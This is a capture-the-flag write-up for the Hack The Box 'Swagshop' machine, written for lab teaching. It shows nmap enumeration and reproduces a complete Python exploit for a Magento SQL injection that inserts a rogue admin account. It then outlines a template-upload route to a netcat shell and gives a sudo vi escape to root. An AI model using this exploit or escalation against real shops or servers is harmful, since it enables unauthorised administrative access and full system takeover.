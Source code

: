 ```yaml
---
layout: single_c
title:  "Hack The Box - Swagshop Writeup"
date:   2019-10-17 10:43:16 +0530
categories: Hack The Box
tags: 
classes: wide
---
```

### [Hack The Box - Swagshop]()

## Enumeration
Lets start by enumerating

### Nmap
Starting with namp
```bash
nmap -sC -sV 10.10.10.140

# Nmap 7.70 scan initiated Thu Aug 29 15:03:29 2019 as: nmap -sC -sV -oA nmap 10.10.10.140
Nmap scan report for ip-10-10-10-140.ap-south-1.compute.internal (10.10.10.140)
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://10.10.10.140/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 29 15:04:15 2019 -- 1 IP address (1 host up) scanned in 45.63 seconds
```
There seems to be a web Magento service running on port 80. Let enumerate further
()
### Directory Buster
`dirb` found an admin login page
(/assets/images/htbimg/swag1.png)

## Vulnerability

### Searchsploit
Found multiple magento vulnerabilities on exploit db
 Tried many but found one that works
 
[Link](https://www.exploit-db.com/exploits/37977)

```python
import requests
import base64
import sys

target = "http://10.10.10.140/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES
('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="joe123", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
#print target_url
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"

 ```
 
 So i added a user joe123
 lets login
 after browsing around found nothing useful
 searched and found magento froghpper vuln [Linl](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper)
 
 1. change developer settings
 2. upload file
 3. create template
 4. start netcat
 5. preview the template
 6. and we have a shell
 
## Priv esc
## Enum again for root
 ```
 
User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*


[00;33m[+] Possible sudo pwnage![00m
/usr/bin/vi

```
so lets try pwning using vim

```
$ sudo /usr/bin/vi /var/www/html/test1
Vim: Warning: Output is not to a terminal
Vim: Warning: Input is not from a terminal

E558: Terminal entry not found in terminfo
'unknown' not known. Available builtin terminals are:
    builtin_amiga
    builtin_beos-ansi
    builtin_ansi
    builtin_pcansi
    builtin_win32
    builtin_vt320
    builtin_vt52
    builtin_xterm
    builtin_iris-ansi
    builtin_debug
    builtin_dumb
defaulting to 'ansi'

:shell  
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
:shell

id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
root.txt
ls -la
cat root.txt
c2b087d66e14********************

   ___ ___
 /| |/|\| |\
/_| Â´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
                   
```
## Solved